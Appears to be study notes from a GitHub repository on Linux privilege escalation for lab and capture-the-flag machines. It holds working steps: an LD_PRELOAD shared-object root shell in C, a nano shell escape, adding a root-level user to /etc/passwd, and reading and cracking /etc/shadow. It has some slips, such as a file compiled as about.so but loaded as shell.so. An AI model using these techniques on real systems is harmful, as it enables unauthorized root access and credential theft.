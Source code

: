 # Linux Previledge Escalation

What to do here?

- Resetting passwords
- Bypassing access controls to compromise protected data
- Editing software configurations
- Enabling persistence
- Changing the privilege of existing (or new) users
- Execute any administrative command

## 1. Linux Eneumeration

Check out [leb-LinuxEchoBeach](https://github.com/Yeaseen/leb-LinuxEchoBeach/blob/main/leb.md) for eneumerating Linux System

Also, you can get some knowledge about wargames at my soloutions to overthewire [bandit](https://github.com/Yeaseen/overthewire-solve/tree/main/Bandit)

## 2. Automated Eneumeration Scripts with prospective exploitation points

- [LinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
- [LES(Linux Exploit Suggester)](https://github.com/mzet-/linux-exploit-suggester)

Donlowad any of the script on your local machine and transfer this to the compromized VM either using [scp command](https://github.com/Yeaseen/leb-LinuxEchoBeach/blob/main/leb.md#copy-files-between-two-different-network-remotely) or creatimg python [simple http server](https://github.com/Yeaseen/leb-LinuxEchoBeach/blob/main/leb.md#in-the-same-networkhost-and-virtual-oses-file-transfer-between-two-machines-using-python-server)

## 3. Privilege Escalation: Kernel Exploits

- One way:
  Find the Linux Kernel and System versions. Go to exploit-db or dimilar websites to grab a script. Make your you have all the necessary packages installed on the device, otherwise you will just destroy the compromized system.
  You can use the following script for Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04)

  - ['overlayfs' Local Privilege Escalation](https://www.exploit-db.com/exploits/37292)
    For this, you need to have gcc installed on the system.

- Another way:
  Search if nano command is exploitable. If exploitable, press ctrl+R, ctrl+X and execute `bash reset; bash 1>&0 2>&0`
  Eventually, you should get the root access.

## 4. Privilege Escalation: Sudo

- Leverage application functions
  Here you have to find an application that supports loading alternative configuration file such as Apache2's -f option to specify an alternative ServerConfigFile. You can load /etc/shadow file using -f option of apache2 command, resulting in an error message that includes the first line of the /etc/shadow file.

- Leverage LD_PRELOAD

  - On some systmes, `bash sudo -l` will give you its current situation related to root privileges. Such as whether env_keep variable is enabled. If it is: env_keep+=LD_PRELOAD, that means we can create a shared library object so file to first unset the env file and load the /bash/bin or /bash/sh file.
  - LD_PRELOAD-->These capabilities often involve manipulating or intercepting function calls within programs, allowing for customization or modification of their behavior.
  - The steps of this privilege escalation vector can be summarized as follows;

    - Check for LD_PRELOAD (with the env_keep option)
    - Write a simple C code compiled as a share object (.so extension) file
    - Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file

  - The following about.c code simply spawns a root shell

    ```
    #include <stdio.h>
    #include <sys/types.h>
    #include <stdlib.h>

    void _init() {
      unsetenv("LD_PRELOAD");
      setgid(0);
      setuid(0);
      system("/bin/bash");
    }
    ```

  - compile it using gcc into a shared object file using the following parameters:
    `bash gcc -fPIC -shared -o about.so about.c -nostartfiles`
  - Now, we have the capability to employ this shared object file when initiating any program accessible to our user through the sudo command. In our scenario, programs like Apache2, find, or nearly any other program executable with sudo privileges can leverage this shared object file.
  - run the program by specifying the LD_PRELOAD option, resulting in a shell spawn with root previledges
    `bash sudo LD_PRELOAD=/home/user/ldpreload/shell.so find`
  - check by running `bash id`

## 5. Privilege Escalation: SUID

Linux privilege controls heavily hinge on managing the interactions between users and files, achieved through permissions. As you're aware, files can possess read, write, and execute permissions, each granted to users based on their privilege levels. However, the dynamics shift with SUID (Set-user Identification) and SGID (Set-group Identification). These mechanisms enable the execution of files with the permission level of either the file owner (SUID) or the group owner (SGID). Follow [this](https://www.scaler.com/topics/special-permissions-in-linux/) and [this](https://www.redhat.com/sysadmin/suid-sgid-sticky-bit). `bash find / -type f -perm -04000 -ls 2>/dev/null` will list files that have SUID or SGID bits set. A good practice would be to compare executables on this list with GTFOBins [suid](https://gtfobins.github.io/#+suid)

- One way: reading the /etc/shadow file or adding our user to /etc/passwd if you can. Try to use cp command to get the /etc/passwd file to /tmp directory.

  - run `bash openssl passwd -1 salt THM passsword`
  - add the following line to etc/passwd
    <attacker_name>:<created_hash_for_passsword>:0:0:root:/root:/bin/sh

- Other way: Password Cracking using johntheripper
  - On your Kali Linux: put contents of /etc/passwd to password.txt and contents of /etc/shadow to shadow.txt
  - run `bash base64 /etc/passswd | base64 --decode` if you don't have read permission. It's one way to read the original contents of a file you don't have permission.
  - run `bash unshadow passwd.txt shadow.txt > passwords.txt`
  - get password of the current users: `bash john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt`
